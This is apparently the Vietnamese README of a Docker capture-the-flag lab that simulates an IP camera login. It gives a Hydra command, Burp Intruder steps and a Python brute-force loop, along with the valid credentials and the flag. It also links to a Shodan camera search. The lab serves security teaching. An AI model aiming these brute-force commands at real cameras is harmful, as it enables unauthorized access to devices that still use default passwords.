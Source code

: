 
# 🔓 Brute Force Camera Lab

## 🧠 Mục tiêu học tập

Trong bài lab này, học viên sẽ được thực hành tấn công brute force trên một hệ thống giả lập giao diện đăng nhập của Camera IP. Mô hình này được thiết kế sát với thực tế: nhiều camera trên thị trường (Dahua, Hikvision, v.v.) thường sử dụng **tài khoản mặc định** như `admin:admin` hoặc `admin:12345`.

### 🎯 Mục đích:
- Hiểu rõ về **rủi ro khi dùng mật khẩu mặc định**.
- Hiểu cách **brute force** hoạt động ở tầng HTTP.
- Sử dụng công cụ như **Burp Suite** và **Hydra** để tấn công.
- Xác thực kỹ thuật brute force trên một mô hình thật.

---

## 🏗️ Cấu trúc thư mục

```
bruteforce-camera-lab/
├── docker-compose.yml         # Cấu hình dịch vụ Docker
├── Dockerfile                 # Build container PHP + Apache
├── html/
│   ├── index.php              # Trang giới thiệu và mở đầu bài học
│   ├── camera-login.php       # Trang login giống camera IP
│   ├── validate.php           # Xử lý login + hiệu ứng pháo hoa khi thành công
│   ├── flag.txt               # Flag CTF sau khi đăng nhập thành công
│   └── common/
│       ├── style.css          # Giao diện chung
│       └── style-validate.css # Giao diện tung hoa khi lấy được flag
```

---

## 🚀 Cài đặt & chạy lab bằng Docker

### ✅ Yêu cầu:

- Docker & Docker Compose đã cài sẵn.

### ▶️ Các bước chạy:

```bash
git clone https://github.com/your-user/bruteforce-camera-lab.git
cd bruteforce-camera-lab
docker-compose up --build
```

Mở trình duyệt và truy cập: [http://localhost:8080](http://localhost:8080)

---

## 💡 Mô tả các trang

### 🔹 `index.php`

- Trang giới thiệu case study tấn công camera IP với tài khoản mặc định.
- Có nút chuyển sang trang đăng nhập.

### 🔹 `camera-login.php`

- Giao diện login mô phỏng thiết bị camera IP.
- Có xử lý thông báo lỗi khi sai mật khẩu.

### 🔹 `validate.php`

- Kiểm tra tài khoản đăng nhập.
- Nếu đúng, hiển thị flag + hiệu ứng pháo hoa.
- Nếu sai, chuyển về lại `camera-login.php`.

---

## 🧪 Thực hành Brute Force

### 🔍 Phân tích

Trang `camera-login.php` có form POST:

```html
<form method="POST" action="validate.php">
  <input name="username">
  <input name="password">
</form>
```

Username/password hợp lệ: `admin:12345`

---

### 🛠️ Gợi ý tấn công bằng Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  localhost http-post-form "/camera-login.php:username=^USER^&password=^PASS^:Sai username hoặc password"
```

> ✅ Nếu thành công: bạn sẽ thấy thông báo flag từ `validate.php`.

---

### 🐞 Gợi ý Burp Suite (Intruder)

1. Mở Burp và bật proxy.
2. Truy cập `camera-login.php` và nhập thử thông tin bất kỳ.
3. Gửi request sang Intruder.
4. Gán payload cho `password=...`.
5. Dùng wordlist ví dụ: `rockyou.txt`.
6. Quan sát response và xác định login thành công (status, content, không chứa chuỗi "Sai username").

---

## 🖼️ Mô phỏng thật

- Cổng `8080`: camera thật thường dùng các port 80, 8080, 554...
- Login form: không có captcha, không rate-limit — để tiện brute-force.
- Giao diện: đen, font monospace, tối giản giống webconfig thiết bị.

---

## 🏁 Flag

Sau khi brute force thành công, bạn sẽ thấy flag như:

```
🎉 Truy cập thành công!
Flag: FLAG{bruteforce_success_camera}
```

---

## 📚 Tài liệu tham khảo

- [Hydra - Kali Linux Tools](https://tools.kali.org/password-attacks/hydra)
- [Burp Suite Intruder Docs](https://portswigger.net/burp/documentation/desktop/tools/intruder)
- [Shodan Search for Cameras](https://www.shodan.io/search?query=camera)

---

## 📌 Ghi chú

- Mật khẩu mặc định trong `validate.php` là `12345`. Bạn có thể đổi trong code.
- Đây là lab mô phỏng giáo dục, **tuyệt đối không dùng để tấn công thực tế**.
- Nếu muốn nâng cấp: thêm Captcha, giới hạn login, delay brute-force...

---

## 👨‍🏫 Giảng viên có thể...

- Giao bài: "Tìm mật khẩu đúng để lấy flag".
- Hướng dẫn cách viết script brute-force bằng Python/requests.
- Mở rộng lab: thêm Basic Auth, cookie check, AJAX login.

---

## 🧠 Challenge nâng cao (tuỳ chọn)

> Viết tool Python brute-force login:
```python
import requests

url = "http://localhost:8080/validate.php"
for pwd in ["123", "admin", "12345", "password"]:
    r = requests.post(url, data={"username": "admin", "password": pwd})
    if "Flag" in r.text:
        print(f"[+] Found: {pwd}")
        break
```

---

## 📬 Liên hệ / Đóng góp

Nếu bạn thấy lab này hữu ích, hãy fork, chỉnh sửa và chia sẻ với cộng đồng học an toàn thông tin!

---
